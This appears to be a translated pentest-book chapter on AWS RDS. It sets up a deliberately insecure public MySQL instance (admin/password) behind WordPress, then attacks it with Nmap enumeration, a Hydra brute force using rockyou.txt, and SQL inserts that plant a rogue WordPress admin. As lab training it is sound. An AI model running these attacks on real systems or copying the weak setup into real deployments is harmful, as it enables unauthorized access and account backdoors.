


# 测试和固定 AWS RDS

AWS**关系数据库服务**（RDS）通常承载与特定应用程序相关的最关键、最敏感的数据。因此，非常需要将重点放在识别公开的 AWS RDS 实例以枚举访问，以及随后存储在数据库实例中的数据上。本章重点介绍设置示例 RDS 实例并以安全和不安全的方式将其连接到 WordPress 实例的过程。除此之外，我们将重点关注获取对公开数据库的访问，以及识别和过滤该数据库中的敏感数据。

在本章中，我们将介绍以下主题：

*   设置 RDS 实例并将其连接到 EC2 实例
*   使用 Nmap 识别和枚举公开的 RDS 实例
*   从易受攻击的 RDS 实例中进行攻击和数据提取

# 技术要求

本章将使用以下工具：

*   WordPress
*   Nmap
*   九头蛇

# 设置易受攻击的 RDS 实例

我们将首先创建一个简单的 RDS 实例，然后将其连接到 EC2 机器：

1.  在服务菜单中，转到亚马逊 RDS：


2.  单击 createdatabase。在本教程中，我们将使用 MySQL；选择 MySQL，然后单击下一步：


3.  由于这只是一个教程，我们将使用 Dev/Test–MySQL 选项。这是免费的一层，因此不会向您收费。选择 Dev/Test–My SQL 并单击 Next 继续：


4.  在下一页中，单击仅启用符合 RDS 免费使用层条件的选项。然后在 db 实例类中选择 db.t2.micro 实例：


5.  填写以下屏幕截图中显示的详细信息，例如数据库名称、主用户名和主密码。在本教程中，我们将设置易受暴力攻击的数据库；我们将其命名为`vulndb`，并将用户名和密码设置为`admin`和`password`：


6.  在下一页，设置`Yes`可公开访问；其他一切都保持原样。最后，单击 createdatabase。

不久将创建您的 DB 实例。默认情况下，任何公共 IP 地址都无法访问 DB 实例。要更改此设置，请打开 RDS 实例的安全组，并允许从任何位置在端口`3306`上进行传入连接。

7.  现在我们将为 WordPress 网站创建一个数据库。从终端连接到 RDS 实例：

```
mysql -h <<RDS Instance name>> -P 3306 -u admin -p
```

8.  在 MySQL shell 中，键入以下命令以创建新数据库：

```
CREATE DATABASE newblog;
GRANT ALL PRIVILEGES ON newblog.* TO 'admin'@'localhost' IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
EXIT;
```

我们的数据库现已建立。在下一节中，我们将研究如何将新创建的数据库连接到 EC2 实例。

# 将 RDS 实例连接到 EC2 上的 WordPress

一旦创建了 RDS 实例，我们将在 EC2 实例上设置 WordPress。

在本教程中，我们将使用一个 Ubuntu 16.04 实例。继续，启动一个 Ubuntu EC2 实例。在入站规则设置中，确保您允许传输到端口`80`和`443`（HTTP 和 HTTPS）：

1.  将 SSH 导入 Ubuntu 实例。我们现在将设置该实例，以便能够托管 WordPress 网站。继续之前，运行`apt update`和`apt upgrade`。
2.  在 EC2 计算机上安装 Apache 服务器：

```
sudo apt-get install apache2 apache2-utils
```

3.  要启动 Apache 服务，可以运行以下命令：

```
sudo systemctl start apache2
```

要查看实例是否正常工作，您可以访问`http://<<EC2 IP Address>>`，应该得到 Apache 的默认页面。

4.  现在，我们将使用以下命令安装 PHP 和一些模块，使其与 web 和数据库服务器一起工作：

```
sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd  
```

5.  为了测试 PHP 是否与 web 服务器协同工作，我们需要在`/var/www/html`中创建`info.php`文件：

```
sudo nano /var/www/html/info.php
```

6.  将以下代码复制并粘贴到文件中，保存并退出：

```
<?php phpinfo(); ?>
```

完成后，打开 web 浏览器并键入以下地址：`http://<<EC2 IP Address>>/info.php`。您应该能够查看以下 PHP 信息页面作为确认：


7.  接下来，我们将在 EC2 机器上下载最新的 WordPress 网站：

```
wget -c http://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
```

8.  我们需要将所有 WordPress 文件从提取的文件夹移动到 Apache 默认目录：

```
sudo rsync -av wordpress/* /var/www/html/
```

9.  接下来，我们需要配置网站目录的权限，并将 WordPress 文件的所有权分配给 web 服务器：

```
sudo chown -R www-data:www-data /var/www/html/
sudo chmod -R 755 /var/www/html/
```

现在我们将把 WordPress 网站连接到 RDS 实例。

10.  进入`/var/www/html/`文件夹，将`wp-config-sample.php`重命名为`wp-config.php`，如下所示：

```
sudo mv wp-config-sample.php wp-config.php
```

11.  接下来，用 RDS 实例的详细信息更新`MySQL settings`部分。在上一节中，我们将我们的数据库命名为`newblog`；因此，我们将在这里使用相同的名称：

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', <<database_name_here>>); /** MySQL database username */ define('DB_USER', <<username_here>>); /** MySQL database password */ define('DB_PASSWORD', <<password_here>>); /** MySQL hostname */ define('DB_HOST', <<RDS IP Address>>); /** Database Charset to use in creating database tables. */ define('DB_CHARSET', 'utf8'); /** The Database Collate type. Don't change this if in doubt. */ define('DB_COLLATE', '');
```

12.  保存文件，然后重新启动 Apache 服务器：

```
sudo systemctl restart apache2.service
```

13.  打开 web 浏览器，然后输入`http://<<EC2 IP Address>>/index.php`服务器地址以获取欢迎页面：


14.  选择您选择的语言，然后单击“继续”。最后，点击我们走吧！
15.  填写所有要求的信息，然后设置用户名和密码。最后，单击 InstallWordPress。
16.  完成后，您可以使用用户名和密码登录 WordPress 安装：


我们的 WordPress 目标已经确定。但是，我们让整个互联网都可以访问 RDS 实例。这是一个易受攻击的配置。

在下一节中，我们将了解如何发现此类易受攻击的 RDS 实例。

# 使用 Nmap 识别和枚举公开的 RDS 实例

还记得我们公开访问 RDS 实例的时候吗？那么，现在是时候识别这些公共 RDS 实例并利用它们了。

在这个场景中，我们已经知道 RDS 实例的主机名，这让我们稍微容易一点。我们将首先在实例上运行`nmap`扫描，以确定哪些端口处于打开状态：

1.  SSH 到您的 Kali 机器中，并发出以下命令：

```
sudo nmap -sS -v -Pn <<RDS Instance>>
```

我们可以看到端口`3306`已打开，正在侦听任何传入连接：


2.  让我们看看端口`3306`上运行的是什么服务：

```
sudo nmap -sS -A -vv -Pn -sV -p 3306 <<RDS Instance>>
```


3.  因此，它是一个 MySQL 服务。让我们通过**Nmap 脚本****引擎**（**NSE**脚本）了解更多关于 MySQL 服务的信息：

```
sudo nmap -sS -A -vv -Pn -sV -p 3306 --script=mysql-info,mysql-enum <<RDS Instance>>
```

4.  出现了相当多的信息，尤其是有效用户名集，例如`admin`。这在我们的下一节中至关重要：



我们已经确定了我们的目标并找到了一些信息，例如哪些端口是开放的，哪些服务正在运行，以及它正在运行的数据库服务器。此外，我们还发现了一个关键数据，即有效用户名列表。在下一节中，我们将看到使用这些数据可以执行哪些攻击。

# 从易受攻击的 RDS 实例中进行攻击和数据提取

我们现在发现了一个 RDS 实例，它的 MySQL 服务正在公开监听。我们还确定了一组有效的用户名。

我们的下一步是强制我们的`admin`用户登录和有效密码。

在本练习中，我们将使用 Hydra 强制 MySQL 服务并查找密码：

1.  在您的 Kali 实例上，下载一个用于暴力攻击的单词列表词典；我觉得`rockyou.txt`已经足够了。然后，发出以下命令：

```
hydra -l admin -P rockyou.txt <RDS IP Address> mysql
```

2.  Hydra 将使用已提供的单词列表强制执行服务，并将为此提供有效密码：


一旦我们有了一组有效的凭证，就可以连接到 MySQL 服务并为 WordPress 创建一个新用户了。

为了破坏 WordPress 的安装，我们将为 WordPress 创建一个新的管理员用户，然后使用以下凭据登录：

1.  使用我们发现的密码从您的 Kali 计算机再次连接到 MySQL 服务：

```
mysql -h <<RDS Instance name>> -P 3306 -u admin -p
```

为了添加一个新用户，我们必须在数据库的`wp_users`表中添加一个新行。

2.  首先，将数据库更改为 WordPress 使用的数据库：

```
use newblog;
```

3.  现在列出以下表格：

```
show tables;
```



我们可以看到`wp_users`表；现在是添加新行的时候了。

4.  在本教程中，我们将创建一个具有`pass123`密码的`newadmin`用户。发出以下命令：

```
INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_nicename`, `user_email`, `user_status`)
VALUES ('newadmin', MD5('pass123'), 'firstname lastname', 'email@example.com', '0');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_user_level', '10');
```

5.  现在访问登录页面`http://<<EC2 IP Address>>/wp-login.php`。输入新凭据，您将以新管理员身份登录。

# 总结

在本章中，我们学习了什么是 RDS 实例以及如何创建 RDS 实例。然后，我们在 EC2 机器上建立了 WordPress 网站，然后将其配置为使用 RDS 实例作为数据库服务器。我们看到了 RDS 实例如何变得易受攻击。此外，我们使用 Nmap 和 Hydra 来识别和利用易受攻击的 RDS 实例。最后，我们学习了如何篡改 RDS 实例的数据以创建新的 WordPress 用户。

在下一章中，我们将学习如何测试各种其他 AWSAPI。

# 进一步阅读

*   **使用 ncrack、hydra 和 medusa 强制输入密码**：[https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/](https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/)
*   **在亚马逊 RDS**[中配置安全 https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html)
*   **加密亚马逊 RDS 资源**：[https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html)